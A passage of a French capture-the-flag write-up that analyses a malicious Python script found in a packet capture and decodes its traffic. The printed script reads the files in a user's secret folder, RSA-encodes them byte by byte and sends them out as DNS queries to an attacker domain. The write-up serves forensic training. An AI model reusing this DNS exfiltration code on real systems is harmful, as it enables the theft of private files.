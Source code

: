 ```python

def format_query(message: bytes) -> bytes:
    message = message.decode()
    n = 32
    data = [message[i:i+n] for i in range(0, len(message), n)]
    url = '.'.join(data) + '.' + C2
    return url.encode()


def lambdhack_like_rsa(f_name: str):
    with open(f_name, "rb") as f:
        data = f.read(1)
        while data:
            flag = int(hexlify(data),16)
            encoded = pow(flag, KEY.e, KEY.n)
            exfiltrate_data(i_m_a_monkey(encoded))
            data = f.read(1)


def i_m_a_monkey(i_wanna_be_a_monkey):
    my_super_monkey = ""
    for monkey in str(i_wanna_be_a_monkey):
        monkey = int(monkey)
        my_super_monkey += int(monkey/5)*"...." + int(monkey%5)*"...." + "........"
    return my_super_monkey


if __name__=='__main__':
    PATH = "/home/Brian/.secret/"
    FILES = [f for f in listdir(PATH) if isfile(join(PATH, f))]
    for f in FILES:
        start_exfiltration(PATH + f)
        lambdhack_like_rsa(PATH + f)
        end_exfiltration(PATH + f)
```

Le doute n'est plus permis, Brian exfiltre ses fichiers vers `monkey.bzh`. Je sauvegarde ce fichier et valide le 1er flag `H2G2{the_game.py}`. Mais surtout j'applique le filtre `ip.dst == 172.25.0.2` à la capture et je sauvegarde un 2e PCAPNG. Ce dernier ne fait plus que 21 Mo !

## Exfiltration 2 - 100 pts

> Maintenant que vous avez retrouve le  programme malveillant, le SOC vous demande de retrouver les noms des  fichiers qui ont ete exfiltres. Format du flag :  H2G2{fichier_exfiltre1.extension,fichier_exfiltre2.extension,...}

Fort heureusement, le fichier Python n'est pas obfusqué. Néanmoins je décide d'essayer de décoder les données exfiltreés directement. La première requête est `U3RhcnRpbmcgZXhmaWx0cmF0aW9uIG9m.IHRoZSBmaWxlIC9ob21lL0JyaWFuLy5z.ZWNyZXQvQ29uZmlkZW50aWFsLnBkZg==.monkey.bz`. Ce qui correspond à `Starting exfiltration of the file /home/Brian/.secret/Confidential.pdf`. Comme on le voit dans le code source les infomations de début d'exfiltration ne sont pas chiffreés. 
